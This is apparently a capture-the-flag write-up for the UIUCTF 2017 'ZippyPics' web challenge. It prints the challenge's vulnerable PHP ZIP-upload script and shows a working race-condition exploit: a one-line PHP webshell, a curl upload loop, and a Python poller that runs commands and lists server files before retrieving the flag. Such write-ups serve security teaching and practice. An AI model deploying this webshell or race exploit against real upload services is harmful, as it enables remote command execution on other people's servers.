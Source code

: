 ```yaml
---
layout: post
title:  "UIUCTF 2017 - ZippyPics"
date:   2017-04-30 00:00
categories: [UIUCTF2017]
tags: [Web]
author: jbz
---
```



As you can simple guess from the description, Zippy Pics allows you to upload a ZIP file with GIF / JPEG / JPG / PNG files inside to obtain a link you can share.

## Recon
By inspecting the HTML source of /upload.php you can notice that there is the full source code of the PHP script.

```php
<?php
echo "<!--";
echo htmlentities(file_get_contents(__FILE__));
echo "-->";
if($_POST['title']) {
    $title = basename($_POST['title']);
} else{
    $title = basename($_FILES["file"]["name"],".zip");
}

$id = base_convert(rand(1000000000,PHP_INT_MAX), 10, 36);
$target_dir = "/var/www/zippy/uploads/".$title."_".$id;
$tmp_dir = "/tmp/".$title."/";
$uploadOk = 1;
$fileType = pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION);

if ($_FILES["file"]["size"] > 500000) {
    echo "Your file is too large.";
    $uploadOk = 0;
}
if($fileType != "zip" ) {
    echo "Only ZIP files are allowed.";
    $uploadOk = 0;
}
if ($uploadOk == 0) {
    echo "Your file was not uploaded.";
    exit;
}

mkdir($tmp_dir,0755);


$output = shell_exec("unzip -ojd '".escapeshellcmd($tmp_dir)."' '".escapeshellcmd($_FILES["file"]["tmp_name"])."'");
echo $output;

$di = new RecursiveDirectoryIterator($tmp_dir, FilesystemIterator::SKIP_DOTS);
$ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
foreach ( $ri as $img ) {
    if ($img->isDir()) {
        rmdir($img);
    } else {
        $imgType = pathinfo($img,PATHINFO_EXTENSION);
        if ($imgType != "gif" &amp;&amp; $imgType != "jpeg" &amp;&amp; $imgType != "jpg" &amp;&amp; $imgType != "png") {
            unlink($img);
        }
    }
}
$index = fopen($tmp_dir."index.php","w");
$text = <<<'EOT'
<?php
$images = glob("*.{jpg,jpeg,png,gif}",GLOB_BRACE);

foreach($images as $image) {
    echo '<img src="'.$image.'" /><br />';
}
?>
EOT;
fwrite($index,$text);
fclose($index);
symlink($tmp_dir,$target_dir);
header("Location: /uploads/".$title."_".$id);

?>
```

## Find the vuln 
Finding the **race condition** is trivial, first of all let's analyze what the PHP script does:
 1. A folder is created in /tmp/ with the ZIP name or the provided title
 2. The uploaded zip is extracted in the created dir
 3. All extracted files are processed and the ones which have not an allowed extension are deleted
 4. An index.php file is created to show all uploaded pictures
 5. A symlink in the webroot which points to the `/tmp/name || /tmp/title` dir is created
 
We can exploit this procedure as:
  - If you upload 2 ZIP files with the same title they are written to the same directory and both symlink points to the same location
  - If you put files with non allowed extensions in the ZIP they are first written in the target location and then removed

## Exploiting the vuln
To exploit the vuln we must:
 1. Create a ZIP file containing an image
 2. Upload the ZIP file with an arbitrary title
 3. Take note of the symlink created in the webroot
 3. Create a ZIP containing a lot of images and a PHP file
 4. Upload the ZIP with the same arbitrary title
 5. Access the PHP file before it's deleted using the symlink

## From idea to script
The upload max size is 500kb, so we must create as many images as possible to get more time as possible to exploit the race condition. We can use imagemagik and bash to do the trick.

```bash
i=0; while [[ $(du ./ | cut -d'.' -f1| tr -d '[:space:]') -lt 475000 ]]; do convert -size 1x1 xc:#ffffff $i.png; ((i+=1)); done
```
Then we create a PHP webshell and we name it 999999.php

```php
<?php system($_GET['c']); ?>
```

We create a ZIP file with both images and the PHP webshell and we name it 1.zip.

We create another ZIP file with 1.png inside and we name it 2.zip.

We upload 2.zip using the title "jbz".

We start submitting 1.zip in loop with a simple bash script.

    while true; do curl -s -o /dev/null -F "title=jbz" -F "create=" -F "file=@1.zip" 'http://challenge.uiuc.tf:8888/upload.php'; done

We create a script to check if 999999.php is there and execute an arbitrary command.

```python
#!/usr/bin/env python

import requests

def new_symlink():
    url = "http://challenge.uiuc.tf:8888/upload.php"
    files = {'file': open('2.zip', 'rb')}
    values = {'title': 'jbz', 'create' : ''}
        r = requests.post(url, files=files, data=values)
    print r.url
    return r.url

check = new_symlink()

while True:
    r = requests.get(check + "999999.php?c=ls -lah /var/www/zippy/")
    if r.status_code != 404:
        print r.text
        print "Race WON BB!!"
        exit()
```

Time to prepare a coffee and wait for the flag :D

## Brace yourselves flag is coming
After a while (damn!) we won the race and got this:

```
smaury@hitch-hicker:/tmp/$ python create.py
http://challenge.uiuc.tf:8888/uploads/jbz_9wz7hmnn3bk/
total 220K
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 .
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 ..
drwxr-xr-x 2 root     root     4.0K Apr 29 17:07 9d8bf193d88e4d3ab5fca4d7cb2d573f
-rw-r--r-- 1 root     root     2.4K Apr 29 15:20 index.html
-rw-r--r-- 1 root     root     1.6K Apr 29 17:02 upload.php
drwxr-xr-x 2 www-data www-data 196K Apr 30 05:20 uploads

WON the race!!
```
    
After visiting http://challenge.uiuc.tf:8888/uploads/jbz_9wz7hmnn3bk/9d8bf193d88e4d3ab5fca4d7cb2d573f/ we saw that the directory listing was available and that there was a flag file:

```bash
curl http://challenge.uiuc.tf:8888/9d8bf193d88e4d3ab5fca4d7cb2d573f/flag
flag{ez_as_lock_picking_a_ziploc}
```